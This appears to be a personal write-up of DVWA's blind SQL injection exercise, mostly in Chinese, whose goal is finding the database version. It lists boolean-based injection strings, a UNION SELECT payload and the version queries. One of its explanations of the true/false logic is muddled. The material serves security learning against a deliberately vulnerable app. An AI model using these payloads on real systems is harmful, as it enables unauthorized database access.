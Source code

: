 # 8. SQL Injection (Blind)

### Objective: Find the version of the SQL database software through a blind SQL attack.

頁面顯示的資訊有限，只能靠回傳的值是 true or false 來推測你的 query 的正確性

```bash
# User ID exists in the database.
0' OR '1'='1
```

```bash
# User ID is MISSING from the database.
0' OR '1'='2
```

`‘1’=’2` 不成立，所以不管前面那段 (`0’ OR` ) 是什麼，你都可以靠後面這段來判斷你的猜測是否正確

```bash
2' OR user_id='1
```

![Untitled](DVWA%2018a0425eb14f4c03822e8c563383e612/Untitled%2074.png)

```bash
1' UNION SELECT VERSIONS()'
```

參考看看找其他環境的 mariadb 版本長什麼樣子

```bash
select @@version;
```

```bash
select VERSION();
```

![Untitled](DVWA%2018a0425eb14f4c03822e8c563383e612/Untitled%2075.png)
